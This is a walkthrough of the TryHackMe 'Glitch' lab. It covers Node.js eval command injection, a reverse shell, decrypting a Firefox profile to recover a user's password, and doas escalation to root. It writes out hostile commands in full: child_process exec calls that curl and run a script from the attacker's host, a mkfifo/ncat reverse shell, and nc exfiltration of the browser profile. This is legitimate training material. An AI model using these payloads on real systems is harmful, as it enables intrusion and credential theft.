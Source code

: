 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . GLITCH
# DESCRIPTION       . Challenge showcasing a web app and simple privilege escalation. Can you find the glitch?
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/glitch
```

```
sudo nmap -sSVC -T5 -p- 10.10.84.58 -oN glitch
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: not allowed
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- Navigating to the website, we get just a static image and the page title "not allowed."

- In the source code, we find the following

```javascript
function getAccess() {
        fetch('/api/access')
          .then((response) => response.json())
          .then((response) => {
            console.log(response);
          });
      }
```

- If we navigate to `http://10.10.84.58/api/access` we get

```
{"token":"dGhpc19pc19ub3RfcmVhbA=="}
```

- This is base64 encoded. If we enter the decoded value as the value for `token` cookie on the main page, we get access to another page.

- If we inspect the source code this time, we find a `script.js` file at the end

```javascript
(async function () {
  const container = document.getElementById('items');
  await fetch('/api/items')
    .then((response) => response.json())
    .then((response) => {
      response.sins.forEach((element) => {
        let el = `<div class="item sins"><div class="img-wrapper"></div><h3>${element}</h3></div>`;
        container.insertAdjacentHTML('beforeend', el);
      });
      response.errors.forEach((element) => {
        let el = `<div class="item errors"><div class="img-wrapper"></div><h3>${element}</h3></div>`;
        container.insertAdjacentHTML('beforeend', el);
      });
      response.deaths.forEach((element) => {
        let el = `<div class="item deaths"><div class="img-wrapper"></div><h3>${element}</h3></div>`;
        container.insertAdjacentHTML('beforeend', el);
      });
    });

  const buttons = document.querySelectorAll('.btn');
  const items = document.querySelectorAll('.item');
  buttons.forEach((button) => {
    button.addEventListener('click', (event) => {
      event.preventDefault();
      const filter = event.target.innerText;
      items.forEach((item) => {
        if (filter === 'all') {
          item.style.display = 'flex';
        } else {
          if (item.classList.contains(filter)) {
            item.style.display = 'flex';
          } else {
            item.style.display = 'none';
          }
        }
      });
    });
  });
})();
```

- Again, let's go to `http://10.10.84.58/api/items`

```
{"sins":["lust","gluttony","greed","sloth","wrath","envy","pride"],"errors":["error","error","error","error","error","error","error","error","error"],"deaths":["death"]}
```

- Here I was stuck for a while. I noticed that if we navigate to `/api/arandomvaluethatdoesntexist` we get 

```
Cannot GET /api/arandomvaluethatdoesntexist
```

- I've decided to play around in Burp Suite and after a while I've tried using POST instead of GET for the `/api/items`.

```
{"message":"there_is_a_glitch_in_the_matrix"}
```

- I've tried path traversal thinking that I can access other endpoints than `/api/access` and I even tried directory fuzzing.

- However, as I later figured out, all I had to do was to try and append `?cmd=` after `/api/access`.

- Here's how the final request should look like

```
POST /api/items?cmd=ls HTTP/1.1
Host: 10.10.84.58
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: token=this_is_not_real
Connection: close
```

- But take a look af what we get as an answer

```
ReferenceError: ls is not defined  
    at eval (eval at router.post (/var/web/routes/api.js:25:60), <anonymous>:1:1)  
    at router.post (/var/web/routes/api.js:25:60)  
    at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)  
    at next (/var/web/node_modules/express/lib/router/route.js:137:13)  
    at Route.dispatch (/var/web/node_modules/express/lib/router/route.js:112:3)  
    at Layer.handle [as handle_request] (/var/web/node_modules/express/lib/router/layer.js:95:5)  
    at /var/web/node_modules/express/lib/router/index.js:281:22  
    at Function.process_params (/var/web/node_modules/express/lib/router/index.js:335:12)  
    at next (/var/web/node_modules/express/lib/router/index.js:275:10)  
    at Function.handle (/var/web/node_modules/express/lib/router/index.js:174:3)
```

- Line two in particular is suggesting that this is failing at `eval()`. 
- Other paths in the error sugges that this server is running node js.

- So we might able to run node js commands.

- After some research, I came with the following conclusions

```
require("child_process").exec("curl IP/shell.sh > /tmp/shell.sh")
require("child_process").exec("/bin/sh /tmp/shell.sh")
```

- We could use the first command to get the `shell.sh` script from our host and write it to `/tmp/shell.sh`.
- We could use the second command to execute it.

- However, I've quickly found out that I actually need to URL-encode the commands, so they became

```
require(%22child_process%22).exec(%22curl%20IP/shell.sh%20%3E%20/tmp/shell.sh%22)
require(%22child_process%22).exec(%22/bin/sh%20/tmp/shell.sh%22)
```

- After ages of trial and error, the working reverse shell is

```shell.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|ncat -u ip 3131 >/tmp/f
```

___

- First flag is in `/home/user/user.txt`

#### PRIVILEGE ESCALATION user --- user -> v0id

- In our home directory, there's `.firefox` directory and has full permissions to it.

- This is not common and I've assumed it had something to do with our privilege escalation vector, but I kept looking for something else as I had no idea what to do with the content of `.firefox`.

- I've checked other sources since I was really stuck here and I've found out that we can use a script called [firefox_decrypt](https://github.com/unode/firefox_decrypt)

- I've downloaded it locally and cd'ed into the directory.
- Then, I've started a python3 http.server and from the target host I used wget to get the entire directory recursively

```
wget --recursive --no-parent http://IP:8000/firefox_decrypt .
```

```
python firefox_decrypt.py ~/.firefox/b5w4643p.default-release/
```

```
Master Password for profile .firefox/b5w4643p.default-release/: 
2021-05-18 11:04:58,388 - WARNING - Attempting decryption with no Master Password

Website:   https://glitch.thm
Username: 'v0id'
Password: 'l{REDACTED}d'
```

- Another way is to transfer the `b5w4643p.default-release` to the attack box using nc

SENDING

```
tar -cf - . | nc IP PORT
```

RECEIVING

```
nc -nvlp PORT | tar -xf -
```

- Then, start firefox using `firefox --profile /path/to/b5w4643p.default-release`

- After firefox started, head to `about:logins` in the URL bar.

___

#### PRIVILEGE ESCALATION --- v0id -> root

- I found the following binary when looking for privilege escalation paths for `user`.  

```
/usr/local/bin/doas
```

- We can abuse this by using it like this

```
doas -u root /bin/bash
```

- The last flag is in `/root/root.txt`.

